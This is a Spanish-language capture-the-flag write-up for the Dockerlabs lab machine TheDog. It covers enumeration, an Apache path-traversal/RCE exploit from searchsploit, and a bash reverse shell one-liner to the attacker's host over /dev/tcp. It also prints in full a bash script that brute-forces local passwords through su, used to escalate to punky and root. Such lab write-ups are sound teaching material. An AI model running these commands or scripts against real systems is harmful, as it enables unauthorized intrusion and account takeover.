# 🖥️ Write-Up: [THEDOG](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: TheDog
    - Plataforma: Dockerlabs
    - Dificultad: Medio
    - Creador: Firstatack
    - OS: Linux
---

## 🔍 Enumeración

La máquina TheDog posee la ip 172.17.0.2.

### Descubrimiento de Puertos

Utilizando la herramienta de **nmap** vamos a descubrir los puertos abiertos de la máquina.



Vemos que únicamente el puerto **80** está abierto,por lo que usaremos **nmap** para averiguar que servicio y versión se está ejecutando en él.



### Puerto 80

El puerto 80 está ejecutando un servicio web con **Apache**.

Si accedemos con el navegador a él, vemos una página informativa sobre el comando **ping**.




Vamos a enumerar subdirectorios de la web con la herramienta **gobuster**



Vemos un subdirectorio **html.html**, el cual si accedemos a su contenido, nos proporciona un nombre de usuario, **punky**, pero no dispondemos de un servicio de autenticación para probarlo.



## 🔥 Explotación

No encontramos nada en la web, por lo que vamos a buscar en **searchsploit** la versión de **Apache** que hemos averiguado con **nmap**.



Y vemos que es vulnerable a **Path Traversal** y **Remote Code Execution**, por lo que nos vamos a bajar el script que aparece a la derecha.

```bash
searchsploit -m multiple/webapps/50383.sh
```

Lo renombramos como exploit.sh.

Este exploit es obra de **Lucas Souza**. Para que funcione tenemos que pasarle un archivo que contenga los hosts y una ruta del sistema.



Como nostros solo tenemos un host, vamos a modificar un poco el script, para no tener que pasarle un archivo.



Ahora lo ejecutamos
```bash
./exploit.sh /bin/bash "whoami"
```

Y recibimos **www-data**, por lo tanto, nos vamos a mandar una reverse shell.

Primero nos ponemos en escucha con **netcat**.
```bash
nc -nlvp 443
```

Y ejecutamos la reverse shell.
```bash
./exploit.sh /bin/bash "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

Recibimos la shell.


Ahora realizamos el tratamiento de la **TTY**




## 🧗 Escalada de Privilegios

### Punky

Vamos a aplicar un ataque de **Fuerza Bruta** para averiguar la contraseña del usuario **punky**, para ello, utilizamos el siguiente script de bash, **force.sh** y una versión reducida del rockyou que contendrá las primeras 5000 contraseñas que llamaremos **minirock**.

```bash
#!/bin/bash

# Colour
greenColour="\e[0;32m\033[1m"
redColour="\e[0;31m\033[1m"
endColour="\033[0m\e[0m"

ctrl_c(){
    echo -e "\n${redColour}[!] Aborting...${endColour}\n"
    tput cnorm && exit 1
}

# Ctrl+c
trap ctrl_c INT

if [ "$#" -ne "2" ]; then
	echo "Insert an user and a password's list"
	exit 1
fi

user="$1"
dicc="$2"

tput civis
while read passw ; do

    echo "Checking $passw"
    timeout 0.2 echo $passw | su $user -c 'echo "Hello"' &>/dev/null 

    if [ $? -eq 0 ]; then
        echo -e "\nUser--> ${greenColour}$user${endColour} Password--> ${greenColour}$passw${endColour}\n"
        tput cnorm && exit 0
    fi

done < $dicc

tput cnorm
```

Vamos a utilizar la **clipboard** para pasarnos el contenido de ambos archivos de nuestro equipo a la máquina. Utilizamos la herramienta **xclip** para copiar el contenido a la clipboard más fácilmente.
```bash
cat force.sh | xclip -selection clipboard
```

Ahora en el directorio **/tmp** de la máquina utilizamos el editor **nano** y le pegamos el contenido copiado. Llamamos al archivo force.sh y le damos permisos de ejecución `chmod +x force.sh`

Repetimos el proceso con el diccionario **minirock** y ejecutamos.

```bash
./force.sh punky minirock
```

Tras esperar un poco, encontramos la contraseña de **punky**, **secret**.



Nos convertimos en el usuario **punky**.

### Root

Revisamos los archivos con permisos **SUID**
```bash
find / -perm -4000 2>/dev/null
```

Encontramos el binario **/usr/local/bin/task_manager**. Utilizamos strings para ver las cadenas legibles de este binario.

```bash
strings /usr/local/bin/task_manager
```

Vemos un listado de contraseñas, por lo que las vamos a meter en un archivo que llamaremos **root_passw** y a ejecutar el script de fuerza bruta que teníamos contra el usuario root pero con esas contraseñas.



```bash
./force.sh root root_passwd
```
Y encontramos las contraseña de root, **hannah**

Así que con ella nos convertimos en el usuario root.

